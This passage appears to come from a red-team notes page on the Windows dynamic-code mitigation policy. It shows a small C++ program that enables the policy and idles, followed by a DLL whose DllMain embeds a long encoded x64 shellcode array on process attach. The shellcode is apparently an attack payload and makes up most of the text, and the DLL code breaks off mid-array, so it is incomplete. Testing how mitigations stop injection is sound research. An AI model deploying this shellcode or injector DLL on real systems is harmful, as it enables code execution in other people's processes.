 ![](../../.gitbook/assets/image%20%28484%29.png)

## Code

{% tabs %}
{% tab title="mitigationpolicy.exe" %}
```cpp
#include <iostream>
#include <Windows.h>

int main()
{
    PROCESS_MITIGATION_DYNAMIC_CODE_POLICY dcp = {};
    dcp.ProhibitDynamicCode = 1;
    SetProcessMitigationPolicy(ProcessDynamicCodePolicy, &dcp, sizeof(dcp));

    while (true)
    {
        Sleep(1000 * 2);
    }

    return 0;
}
```
{% endtab %}

{% tab title="injectorDllShellcode.dll" %}
```cpp
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
        case DLL_PROCESS_ATTACH:
        {
            unsigned char shellcode[] =
                "\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef\xff"
                "\xff\xff\x48\xbb\x1d\xbe\xa2\x7b\x2b\x90\xe1\xec\x48\x31\x58"
                "\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xe1\xf6\x21\x9f\xdb\x78"
                "\x21\xec\x1d\xbe\xe3\x2a\x6a\xc0\xb3\xbd\x4b\xf6\x93\xa9\x4e"
                "\xd8\x6a\xbe\x7d\xf6\x29\x29\x33\xd8\x6a\xbe\x3d\xf6\x29\x09"
                "\x7b\xd8\xee\x5b\x57\xf4\xef\x4a\xe2\xd8\xd0\x2c\xb1\x82\xc3"
                "\x07\x29\xbc\xc1\xad\xdc\x77\xaf\x3a\x2a\x51\x03\x01\x4f\xff"
                "\xf3\x33\xa0\xc2\xc1\x67\x5f\x82\xea\x7a\xfb\x1b\x61\x64\x1d"
                "\xbe\xa2\x33\xae\x50\x95\x8b\x55\xbf\x72\x2b\xa0\xd8\xf9\xa8"
                "\x96\xfe\x82\x32\x2a\x40\x02\xba\x55\x41\x6b\x3a\xa0\xa4\x69"
                "\xa4\x1c\x68\xef\x4a\xe2\xd8\xd0\x2c\xb1\xff\x63\xb2\x26\xd1"
                "\xe0\x2d\x25\x5e\xd7\x8a\x67\x93\xad\xc8\x15\xfb\x9b\xaa\x5e"
                "\x48\xb9\xa8\x96\xfe\x86\x32\x2a\x40\x87\xad\x96\xb2\xea\x3f"
                "\xa0\xd0\xfd\xa5\x1c\x6e\xe3\xf0\x2f\x18\xa9\xed\xcd\xff\xfa"
                "\x3a\x73\xce\xb8\xb6\x5c\xe6\xe3\x22\x6a\xca\xa9\x6f\xf1\x9e"
                "\xe3\x29\xd4\x70\xb9\xad\x44\xe4\xea\xf0\x39\x79\xb6\x13\xe2"
                "\x41\xff\x32\x95\xe7\x92\xde\x42\x8d\x90\x7b\x2b\xd1\xb7\xa5"
                "\x94\x58\xea\xfa\xc7\x30\xe0\xec\x1d\xf7\x2b\x9e\x62\x2c\xe3"
                "\xec\x1c\x05\xa8\x7b\x2b\x95\xa0\xb8\x54\x37\x46\x37\xa2\x61"
                "\xa0\x56\x51\xc9\x84\x7c\xd4\x45\xad\x65\xf7\xd6\xa3\x7a\x2b"
                "\x90\xb8\xad\xa7\x97\x22\x10\x2b\x6f\x34\xbc\x4d\xf3\x93\xb2"
                "\x66\xa1\x21\xa4\xe2\x7e\xea\xf2\xe9\xd8\x1e\x2c\x55\x37\x63"
                "\x3a\x91\x7a\xee\x33\xfd\x41\x77\x33\xa2\x57\x8b\xfc\x5c\xe6"
                "\xee\xf2\xc9\xd8\x68\x15\x5c\x04\x3b\xde\x5f\xf1\x1e\x39\x55"
                "\x3f\x66\x3b\x29\x90\xe1\xa5\xa5\xdd\xcf\x1f\x2b\x90\xe1\xec"
                "\x1d\xff\xf2\x3a\x7b\xd8\x68\x0e\x4a\xe9\xf5\x36\x1a\x50\x8b"
```